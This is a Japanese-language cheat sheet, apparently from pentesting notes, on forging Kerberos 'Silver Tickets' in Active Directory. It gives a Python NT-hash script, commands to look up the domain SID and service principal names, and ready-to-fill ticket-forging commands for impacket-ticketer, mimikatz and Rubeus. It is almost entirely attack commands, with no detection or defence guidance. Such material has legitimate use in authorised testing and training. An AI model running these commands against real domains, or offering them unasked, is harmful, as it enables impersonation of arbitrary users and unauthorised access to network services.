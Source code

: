 # Silver Tickets攻撃

`Silver Ticket攻撃`は、Active Directory (AD) 環境におけるサービスチケットの悪用を含む。この手法は、`サービスアカウントのNTLMハッシュを取得すること`に依存し、コンピュータアカウントなどのチケットを偽造するために使用される。この偽造されたチケットを使用することで、攻撃者はネットワーク上の特定のサービスにアクセスでき、任意のユーザーに偽装することができる。

## 攻撃に必要なもの

- サービスアカウントのRC4キー(NTLMハッシュ) or AESキー(128 bitまたは 256 bit)

  [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator)

  スクリプトを使う

  ```python
  import sys
  import hashlib
  
  def calc_nt_hash(p):
      return hashlib.new('md4', p.encode('utf-16le')).hexdigest()
  
  if __name__ == '__main__':
      print(calc_nt_hash(sys.argv[1]))
  ```

- Domain

- DomainのSID

  ```
  impacket-lookupsid -hashes 'LMhash:NThash' '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_IP>'
  ```

- ServicePrincipalName

  PowerView

  ```
  Get-DomainUser -Identity <USERNAME> | select serviceprincipalname
  ```

  AD Module

  ```
  Get-ADUser -Filter {SamAccountName -eq "<USERNAME>" } -Properties ServicePrincipalNames
  Get-ADUser -Identity <USERNAME> -Properties ServicePrincipalName | select ServicePrincipalName
  ```

  `ServicePrincipalName` と `SID` はBloodHoundからも取得可能

# Ticketを取得

## Linux

with an NT hash

```
impacket-ticketer -nthash <NTLM_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <ServicePrincipalName> "<USERNAME>"
```

with an AES (128 or 256 bits) key

```
impacket-ticketer -aesKey <AesKey> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <ServicePrincipalName> "<USERNAME>"
```

## Windows

### mimikatz

with an NT hash

```
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<NTLM_HASH> /user:<USERNAME> /target:<Target> /service:<SPN>
```

with an AES (128 or 256 bits) key

```
# AES 128 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes128:<Aes128_Key> /user:<USERNAME> /target:<Target> /service:<SPN>

# AES 256 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<Aes256_Key> /user:<USERNAME> /target:<Target> /service:<SPN>
```
### Rubeus

with an NT hash

```
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<NTLM_HASH> /user:<USERNAME> /service:<SPN> /nowrap
```

with an AES (128 or 256 bits) key

```
# AES 128 key
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes128:<Aes128_Key> /user:<USERNAME> /service:<SPN> /nowrap

# AES 256 key
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<Aes256_Key> /user:<USERNAME> /service:<SPN> /nowrap
```

